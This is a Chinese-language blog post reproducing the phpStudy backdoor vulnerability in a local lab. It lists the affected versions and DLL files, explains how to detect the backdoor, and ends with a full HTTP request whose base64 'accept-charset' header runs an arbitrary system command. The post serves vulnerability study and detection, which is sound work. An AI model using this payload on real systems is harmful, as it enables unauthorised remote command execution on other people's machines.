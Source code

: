 ```yaml
---
title:  phpStudy后门漏洞复现
date: 2019-09-23 23:16:16
author: dylan
top: false
cover: false
password: 
categories: web安全
tags: 
    - phpstudy
    - 漏洞复现
    - 后门
    - RCE
---
```

# 0x01 漏洞概述
phpStudy是一款PHP调试环境的程序集成包，集成了最新的Apache、PHP、phpMyAdmin、
ZendOptimizer等多款软件一次性安装，无需配置，即装即用。由于其免费且方便的特性，
在国内有着近百万的PHP语言学习者、开发者用户。
最近杭州公安在[“杭州警方通报打击涉网违法犯罪暨“净网2019”专项行动战果”](https://mp.weixin.qq.com/s?__biz=MzA4MjM2MDgxMA==&mid=2815602999&idx=1&sn=b01cd1d8b2c50df48d4196400a3db8d9&chksm=bda0f1b28ad778a46f7cf77ec1ddf1488a063b183732735bc3808621d71765792213f8deb6fe&scene=21#wechat_redirect)一文中提到:

>Phpstudy软件是国内的一款免费的PHP调试环境的程序集成包，通过集成Apache、PHP、MySQL、phpMyAdmin、ZendOptimizer
>多款软件一次性安装，无需配置即可直接安装使用，具有PHP环境调试和PHP开发功能，在国内有着近百万PHP语言学习者、开发者用户。
>正是这样一款公益性软件，2018年12月4日，西湖区公安分局网警大队接报案称，某公司发现公司内有20余台计算机被执行危险命令，
>疑似远程控制抓取账号密码等计算机数据 回传大量敏感信息。
>据统计，截止抓获时间，犯罪嫌疑人共非法控制计算机67万余台，非法获取账号密码类、聊天数据类、设备码类等数据10万余组，
>非法牟利共计600余万元。

令人震惊的同时，想想自己电脑上还下的有好几个版本的phpstudy，根据大佬的思路复现一波，踩了几个特别坑的坑。

# 0x02 影响版本

* phpStudy2016
    `php\php-5.2.17\ext\php_xmlrpc.dll`
    `php\php-5.4.45\ext\php_xmlrpc.dll`
* phpStudy2018
    `PHPTutorial\php\php-5.2.17\ext\php_xmlrpc.dll`
    `PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`
   
# 0x03 漏洞复现
## 复现环境：
win10+phpStudy 2018(php-5.4.45+Apache)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190924232920.png)

## 后门验证：
用记事本或者Notepad++打开phpstudy安装目录下的：

`PHPTutorial\php\php-5.4.45\ext\php_xmlrpc.dll`

存在`@eval(%s('%s'));`即说明有后门。

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190924233404.png)

## 后门复现
### BP抓包复现
直接访问首页抓包

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190924234029.png)



在请求头里构造 `Accept-Encoding` 和 `accept-charset` 即可。

 `Accept-Encoding` 已经有了，但是这里注意：
 **要把`gzip, deflate`  里逗号后面的空格去掉，不然命令执行不成功。**
 
 ![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190924235906.png)

然后在请求头里添加 `accept-charset: c3lzdGVtKCduZXQgdXNlcicpOw==`
`Accept-Charset` 的值就是执行的命令，默认是`system('net user');`
如果想要执行其他命令，直接去把命令进行base64编码替换即可！

**最后注意，要保证有请求体，只有请求头会一直卡在Waiting，最后返回超时。
在请求头最后，至少敲两下回车，然后留空或者随便添加点什么。**

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190925000134.png)
![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190925000651.png)

![](https://raw.githubusercontent.com/dylan903/ImgUrl/master/Img/20190925000852.png)

### payload:

```
GET / HTTP/1.1
Host: 192.168.1.12
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
accept-charset: c3lzdGVtKCduZXQgdXNlcicpOw==
Accept-Encoding: gzip,deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,ru;q=0.6,und;q=0.5,pt;q=0.4,zh-TW;q=0.3,lb;q=0.2,fr;q=0.1,ca;q=0.1,ja;q=0.1,mt;q=0.1,de;q=0.1,vi;q=0.1,pl;q=0.1,tr;q=0.1,nb;q=0.1,es;q=0.1
Connection: close
Content-Length: 2


```
